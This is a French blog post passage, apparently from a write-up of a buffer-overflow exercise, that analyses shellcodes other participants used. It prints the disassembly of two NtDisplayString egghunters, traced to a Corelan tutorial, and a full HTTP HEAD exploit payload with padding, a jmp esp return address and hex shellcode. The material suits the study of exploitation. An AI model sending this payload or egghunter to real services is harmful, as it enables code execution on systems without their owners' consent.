 Les shellcodes se ressemblent malheureusement tous, seul le tag change :  

```asm
   0:   66 81 ca ff 0f          or     dx,0xfff
   5:   42                      inc    edx
   6:   52                      push   edx
   7:   6a 02                   push   0x2
   9:   58                      pop    eax
   a:   cd 2e                   int    0x2e
   c:   3c 05                   cmp    al,0x5
   e:   5a                      pop    edx
   f:   74 ef                   je     0x0
  11:   b8 33 6d 6e 33          mov    eax,0x336e6d33
  16:   8b fa                   mov    edi,edx
  18:   af                      scas   eax,DWORD PTR es:[edi]
  19:   75 ea                   jne    0x5
  1b:   af                      scas   eax,DWORD PTR es:[edi]
  1c:   75 e7                   jne    0x5
  1e:   ff e7                   jmp    edi
  20:   aa                      stos   BYTE PTR es:[edi],al
  21:   aa                      stos   BYTE PTR es:[edi],al
  22:   aa                      stos   BYTE PTR es:[edi],al
  23:   aa                      stos   BYTE PTR es:[edi],al
  24:   19 2f                   sbb    DWORD PTR [edi],ebp
  26:   55                      push   ebp
  27:   64                      fs
```

Il s'agit du egghunter *NtDisplayString* que l'on trouve [dans le tutoriel de Corelan](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/) (la fin c'est du padding et l'adresse du gadget).  

Il y avait aussi cette variante :  

```plain
HEAD /coffeeAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA311350626681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7
```

Ici le shellcode est placé après l'adresse de retour (0x62501331 qui correspond à un *jmp esp*) :  

```asm
   0:   66 81 ca ff 0f          or     dx,0xfff
   5:   42                      inc    edx
   6:   52                      push   edx
   7:   6a 02                   push   0x2
   9:   58                      pop    eax
   a:   cd 2e                   int    0x2e
   c:   3c 05                   cmp    al,0x5
   e:   5a                      pop    edx
   f:   74 ef                   je     0x0
  11:   b8 77 30 30 74          mov    eax,0x74303077
  16:   8b fa                   mov    edi,edx
  18:   af                      scas   eax,DWORD PTR es:[edi]
  19:   75 ea                   jne    0x5
  1b:   af                      scas   eax,DWORD PTR es:[edi]
  1c:   75 e7                   jne    0x5
  1e:   ff e7                   jmp    edi
```

Il prend plus de place et met plus de temps à s'exécuter que le mien donc pas de regret :p

*Published May 04 2019 at 17:04*
